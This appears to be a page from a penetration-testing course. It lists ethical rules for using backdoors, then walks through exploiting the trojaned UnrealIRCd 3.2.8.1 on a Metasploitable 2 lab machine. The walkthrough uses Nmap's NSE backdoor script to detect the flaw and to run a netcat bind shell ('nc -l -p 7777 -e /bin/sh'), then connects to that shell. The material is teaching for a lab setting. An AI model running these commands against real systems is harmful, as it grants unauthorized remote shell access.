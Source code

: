 - Requirement: Obtain explicit consent from the system owner before using backdoors or persistence tools.
- Responsible Use: Limit the use of backdoors and persistence tools to what is strictly necessary for penetration testing purposes.
- Detailed Documentation: Meticulously document the creation and use of backdoors, as well as the persistence tools employed.
- Transparent Follow-up: Communicate transparently with the customer or system owner about actions taken, including the implementation of backdoors and persistence tools.
- Responsible Removal: Remove all backdoors and persistence tools at the end of penetration testing, ensuring that no unauthorized access points are left behind.
- Avoid Unauthorized Damage: Avoid causing unauthorized damage to the system, data, or the integrity of the environment during the use of backdoors and persistence tools.
- It is crucial to remember that the implementation of backdoors and persistence tools should be done for the sole purpose of improving system security and assisting in the mitigation of vulnerabilities. Ethical conduct and transparency are critical at all stages of penetration testing.

## UnrealIRCd Backdoors and Persistence in Metasploitable 2

UnrealIRCd is an Open Source IRC server. In November 2009 the archive named “Unreal3.2.8.1.tar.gz” was replaced by a version containing a backdoor (trojan). This backdoor allowed anyone to execute various commands with the privileges of the user running ircd. The backdoor was executed regardless of the user's restrictions. For the following practice, we will use, as always, Metasploitable 2 and Kali Linux.

We focus on the IRC service on TCP port 6667.

![IRC](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/irc.png?raw=true)

We will use the NSE Script named “irc-unrealircd-backdoor.nse” included in Nmap, which allows us to check if this IRC server contains the backdoor.

```bash
nmap -n -Pn -p 6667 --script=irc-unrealircd-backdoor.nse 192.168.1.49
```

![script-irc](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/script-irc.png?raw=true)

The argument named “irc-unrealircd-backdoor.command” in the script can be used to execute arbitrary commands on the remote system. Due to the nature of this vulnerability (the result is never returned) there is no way to obtain the output of the command.


```bash
nmap -n -Pn -p 6667 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc -l -p 7777 -e /bin/sh' 192.168.1.49
```

![backdoor](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/backdoor.png?raw=true)


From another terminal, use the Netcat tool to establish a connection to TCP port 7777.

```bash
nc -n -vv 192.168.1.49 7777
```
